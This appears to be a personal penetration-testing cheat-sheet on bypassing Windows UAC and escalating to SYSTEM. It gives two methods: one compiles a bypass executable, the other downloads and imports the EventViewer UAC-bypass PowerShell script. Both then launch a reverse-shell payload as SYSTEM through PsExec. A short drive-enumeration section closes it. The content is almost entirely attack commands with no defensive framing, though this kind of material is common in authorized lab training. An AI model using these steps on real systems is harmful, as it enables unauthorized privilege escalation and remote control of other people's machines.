 ```bash - kali
x86_64-w64-mingw32-gcc main.c -o bypass64.exe
```

Set up listener, transfer to target, run bypass64.exe file.

```batch - taret
bypass64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[1._rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```
PsExec64.exe -i -accepteula -d -s C:\Users\alice\AppData\Local\Temp\Tools\reverse64.exe
```

#### Method 2
```bash - kali
wget https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1
```

```batch - target
Import-Module .\Invoke-EventViewer.ps1
```

[[1._rlwrap]]

```batch - target
Invoke-EventViewer %TEMP%\Tools\reverse64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[1._rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```batch - target
PsExec64.exe -i -accepteula -d -s %TEMP%\Tools\reverse64.exe
```


---

#### Harddrirves

```batch - windows
mountvol
```

```batch - windows
wmic logicaldisk get caption
```
